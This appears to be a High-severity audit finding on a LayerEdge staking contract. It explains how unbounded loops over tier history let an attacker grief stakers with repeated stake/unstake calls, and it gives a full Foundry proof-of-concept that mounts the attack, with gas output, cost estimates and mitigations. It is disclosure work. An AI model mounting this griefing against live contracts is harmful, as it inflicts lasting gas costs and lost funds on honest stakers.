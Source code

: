 Wide Caramel Guppy

High

# Staker actions can run OOG or become too expensive due to stuffing of tier history by attacker

## Description & Impact
All major functions like `stake()`, `unstake()`, `_claimInterest()`, `compoundInterest()` internally call `_updateInterest() --> calculateUnclaimedInterest()`. 

`calculateUnclaimedInterest()` has two unbounded loops [here](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L419) and [here](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L451):
```js

        // Find the most recent tier event before fromTime
        for (uint256 i = 0; i < userTierHistory.length; i++) {

```
and
```js

        // Then process any subsequent tier changes within our calculation window
        for (uint256 i = relevantStartIndex + 1; i < userTierHistory.length; i++) {

```

An attacker can thus call stake & unstake multiple times to cause promotion/demotion of stakers at tier boundaries and inflating their tier history array. All of this can be done in a single tx. Single or multiple attack accounts can be used.

Now when the honest staker tries to call any of these functions, they encounter either of these two situations:
1. If the `userTierHistory` has been inflated too a high enough size, they run OOG.
2. Or if the `userTierHistory` size is not enough to cause an OOG, they still end up paying a high amount of gas fee. In case the user has set a gas limit, the tx could revert. This is problematic because:
    - For every operation, they now need to pay an exorbitant amount, affecting their future participation in the protocol.
    - Even to claim their existing interest, they now need to see if it's worth paying the increased gas fee. Their interest could well be lesser than it, making the claim unprofitable. ( The increased gas cost is borne from subsequent claims when `relevantStartIndex` grows; refer PoC for exact behaviour )
    - Even unstaking becomes expensive.
All these are lost opportunities or direct fund loss.

Note that although this is a pure griefing attack i.e. the attacker bears the gas cost to mount the attack and does not directly profit, this attack cost is one-time. For the honest user however, once the `userTierHistory` has been hyper inflated, there's no way to shrink it back and hence they are affected for their life time.

## Example Attack
```text
           Before: 6 users                    After: 7 users
┌────────┬────────┬────────────┐   ┌────────┬────────┬────────────┐
│ Tier 1 │ Tier 2 │   Tier 3   │   │ Tier 1 │ Tier 2 │   Tier 3   │
│(1 user)│(1 user)│ (4 users)  │   │(1 user)│(2 user)│ (4 users)  │
└────────┴────────┴────────────┘   └────────┴────────┴────────────┘
   1       2         3  4  5  6      1        2  3      4  5  6  7
                                                 ↑
                                            User #3
                                        moves from Tier 3
                                            to Tier 2
For 6 users:
    - Tier1: 20% of 6 = 1
    - Tier2: 30% of 6 = 1
    - Tier3: Remaining = 4

For 7 users:
    - Tier1: 20% of 7 = 1
    - Tier2: 30% of 7 = 2
    - Tier3: Remaining = 4

```

- Attacker acts as the 7th user.
- Stakes & unstakes multiple times say, 1000 in a single tx.
- Every stake causes user 3 to be promoted and their `userTierHistory` size to be increased by one.
- Every unstake causes user 3 to be demoted and their `userTierHistory` size to be increased by one.

Note that the example shows only user3 being affected but it could be an additional user too who is being promoted from Tier2 to Tier1, thus affecting 2 users in a single attack.
Also, attacker may use multiple accounts (e.g. acting as user 7, 8, 9, 10, 11, 12) in their attack to cause promotion & demotion of multiple users.

## Proof of Concept
Add this file under `test/stake/` and run with `forge test --mc GasGriefingPoC -vv`:

<details>
<summary>Click to expand</summary>

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {LayerEdgeStaking} from "@src/stake/LayerEdgeStaking.sol";
import {LayerEdgeToken} from "@test/mock/LayerEdgeToken.sol";
import {DeployLayerEdgeStaking} from "@script/DeployLayerEdgeStaking.s.sol";
import {NetworkConfig, HelperConfig} from "@script/HelperConfig.s.sol";

contract GasGriefingPoC is Test {
    LayerEdgeStaking public staking;
    LayerEdgeToken public token;
    HelperConfig public helperConfig;
    DeployLayerEdgeStaking public deployer;

    address public admin;
    address public user1 = makeAddr("user1");
    address public user2 = makeAddr("user2");
    address public user3 = makeAddr("user3");
    address public user4 = makeAddr("user4");
    address public user5 = makeAddr("user5");
    address public user6 = makeAddr("user6");

    uint256 public constant MIN_STAKE = 3000 * 1e18;
    uint256 public constant REWARDS_AMOUNT = 100_000 * 1e18;

    function setUp() public {
        deployer = new DeployLayerEdgeStaking();
        (staking, helperConfig) = deployer.run();

        NetworkConfig memory config = helperConfig.getActiveNetworkConfig();
        token = LayerEdgeToken(config.stakingToken);
        admin = config.owner;

        vm.startPrank(admin);
        token.approve(address(staking), REWARDS_AMOUNT);
        staking.depositRewards(REWARDS_AMOUNT);
        vm.stopPrank();

        address[6] memory users = [user1, user2, user3, user4, user5, user6];
        for (uint256 i = 0; i < users.length; i++) {
            vm.prank(admin);
            token.transfer(users[i], MIN_STAKE * 10);
            
            vm.prank(users[i]);
            token.approve(address(staking), type(uint256).max);
        }
    }

    function test_NormalClaimsGasCost() public {
        console2.log("=== Subsequent Claims Gas Cost Test ===");
        
        // Setup 6 users
        address[6] memory users = [user1, user2, user3, user4, user5, user6];
        for (uint256 i = 0; i < users.length; i++) {
            vm.prank(users[i]);
            staking.stake(MIN_STAKE);
        }
        
        // Let time pass to accumulate interest
        vm.warp(block.timestamp + 30 days);
        
        // === STEP 1: Initial Claim (Normal User) ===
        console2.log("--- STEP 1: Initial Claim (Normal User) ---");
        
        uint256 initialTierChanges = staking.stakerTierHistoryLength(user3);
        console2.log("Initial tier changes:", initialTierChanges);
        
        // First claim - this sets lastClaimTime
        uint256 gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 firstClaimGas = gasBefore - gasleft();
        console2.log("First claim gas:", firstClaimGas);
        
        
        // === STEP 2: Second Claim (No Attack) ===
        console2.log("--- STEP 2: Second Claim ---");
        
        vm.warp(block.timestamp + 30 days); // 30 more days of interest
        
        // This claim will need to process ALL the tier changes that happened
        // between lastClaimTime (after first claim) and now
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 secondClaimGas = gasBefore - gasleft();
        console2.log("Second claim gas:", secondClaimGas);
        
        // === STEP 3: Third Claim  ===
        console2.log("--- STEP 3: Third Claim ---");
        
        vm.warp(block.timestamp + 30 days); // Another 30 days
        
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 thirdClaimGas = gasBefore - gasleft();
        console2.log("Third claim gas:", thirdClaimGas);
        
        // === ANALYSIS ===
        console2.log("--- DETAILED ANALYSIS ---");
        console2.log("First claim (normal):", firstClaimGas, "gas");
        console2.log("Second claim (no-attack):", secondClaimGas, "gas");
        console2.log("Third claim :", thirdClaimGas, "gas");
        
        if (secondClaimGas > firstClaimGas) {
            uint256 gasIncrease = secondClaimGas - firstClaimGas;
            uint256 multiplier = secondClaimGas / firstClaimGas;
            console2.log("Gas increase on second claim:", gasIncrease);
            console2.log("Gas multiplier:", multiplier, "x");
            
            console2.log("CHECK: Subsequent claims cost significantly more");
        } else {
            console2.log("Second claim gas did not increase significantly");
        }
        
        // Check third claim gas cost
        if (thirdClaimGas > firstClaimGas) {
            console2.log("SUSTAINED COST: Third claim also shows increased gas costs");
        }
    }

    function test_MaliciousClaimsGasCost() public {
        console2.log("=== Subsequent Claims Gas Cost Test ===");
        
        // Setup 6 users
        address[6] memory users = [user1, user2, user3, user4, user5, user6];
        for (uint256 i = 0; i < users.length; i++) {
            vm.prank(users[i]);
            staking.stake(MIN_STAKE);
        }
        
        // Let time pass to accumulate interest
        vm.warp(block.timestamp + 30 days);
        
        // === STEP 1: Initial Claim (Normal User) ===
        console2.log("--- STEP 1: Initial Claim (Normal User) ---");
        
        uint256 initialTierChanges = staking.stakerTierHistoryLength(user3);
        console2.log("Initial tier changes:", initialTierChanges);
        
        // First claim - this sets lastClaimTime
        uint256 gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 firstClaimGas = gasBefore - gasleft();
        console2.log("First claim gas:", firstClaimGas);
        
        // === STEP 2: Executing Griefing Attack ===
        console2.log("--- STEP 2: Executing Griefing Attack ---");
        
        uint256 gasBeforeAttack = gasleft();
        // Create 1000 tier changes
        for (uint256 i = 0; i < 500; i++) {
            address attacker = address(uint160(uint256(keccak256(abi.encodePacked("griefAttack", i)))));
            vm.prank(admin);
            token.transfer(attacker, MIN_STAKE * 2);
            vm.prank(attacker);
            token.approve(address(staking), MIN_STAKE * 2);
            
            vm.prank(attacker);
            staking.stake(MIN_STAKE);
            vm.prank(attacker);
            staking.unstake(MIN_STAKE);
            
            if ((i + 1) % 100 == 0) {
                console2.log("Attack progress:", i + 1, "/500 cycles");
            }
        }
        uint256 gasAfterAttack = gasleft();
        
        uint256 postAttackTierChanges = staking.stakerTierHistoryLength(user3);
        console2.log("Tier changes after attack:", postAttackTierChanges);
        console2.log("New tier changes created:", postAttackTierChanges - initialTierChanges);
        console2.log("Attack gas spent:", gasBeforeAttack - gasAfterAttack);
        
        // === STEP 3: Second Claim (After Attack) ===
        console2.log("--- STEP 3: Second Claim (After Attack) ---");
        
        vm.warp(block.timestamp + 30 days); // 30 more days of interest
        
        // This claim will need to process ALL the tier changes that happened
        // between lastClaimTime (after first claim) and now
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 secondClaimGas = gasBefore - gasleft();
        console2.log("Second claim gas (after attack):", secondClaimGas);
        
        // === STEP 4: Third Claim (Sustained Impact) ===
        console2.log("--- STEP 4: Third Claim (Sustained Impact) ---");
        
        vm.warp(block.timestamp + 30 days); // Another 30 days
        
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 thirdClaimGas = gasBefore - gasleft();
        console2.log("Third claim gas:", thirdClaimGas);
        
        // === ANALYSIS ===
        console2.log("--- DETAILED ANALYSIS ---");
        console2.log("First claim (normal):", firstClaimGas, "gas");
        console2.log("Second claim (post-attack):", secondClaimGas, "gas");
        console2.log("Third claim (sustained):", thirdClaimGas, "gas");
    }
}
```

</details>

Output:
```js
[PASS] test_NormalClaimsGasCost() (gas: 2546564)
Logs:
  === Subsequent Claims Gas Cost Test ===
  --- STEP 1: Initial Claim (Normal User) ---
  Initial tier changes: 1
  First claim gas: 68291
  --- STEP 2: Second Claim ---
  Second claim gas: 37591
  --- STEP 3: Third Claim ---
  Third claim gas: 37591
  --- DETAILED ANALYSIS ---
  First claim (normal): 68291 gas
  Second claim (no-attack): 37591 gas   ✅ // reasonable
  Third claim : 37591 gas
  Second claim gas did not increase significantly

[PASS] test_MaliciousClaimsGasCost() (gas: 275667936)
Logs:
  === Subsequent Claims Gas Cost Test ===
  --- STEP 1: Initial Claim (Normal User) ---
  Initial tier changes: 1
  First claim gas: 68291
  --- STEP 2: Executing Griefing Attack ---
  Attack progress: 100 /500 cycles
  Attack progress: 200 /500 cycles
  Attack progress: 300 /500 cycles
  Attack progress: 400 /500 cycles
  Attack progress: 500 /500 cycles
  Tier changes after attack: 1001
  New tier changes created: 1000
  Attack gas spent: 319715144   ⬅️ // Attack cost
  --- STEP 3: Second Claim (After Attack) ---

// ⚠️ relevantStartIndex = 1000 here
  Second claim gas (after attack): 842326
  --- STEP 4: Third Claim (Sustained Impact) ---

// ⚠️ relevantStartIndex = 1000 here too
  Third claim gas: 842326
  --- DETAILED ANALYSIS ---
  First claim (normal): 68291 gas
  Second claim (post-attack): 842326 gas
  Third claim (sustained): 842326 gas
```

One can assume prevalent gas price say, 10 gwei and ETH price of `$2000`. So attack cost =  `$ (319715144 * 10 / 1e9 * 2000) = $6400`

And increased cost for user3 for _every claim action_ = `$ (842326 - 37591) * 10 / 1e9 * 2000 = $16` 

## Mitigation
A combination of various approaches could be taken:
1. Allow unstake() only after some cooldown. 
2. Change the accounting approach so that any tier change maintains an updated interest figure. Something similar to usage of index while calculating rewards in many DeFi protocols.
3. Batch interest calculations: Process only if tier change timestamps are unique. This will help ignore tier changes happening at the same timestamp, which do not contribute to any interest APY change.
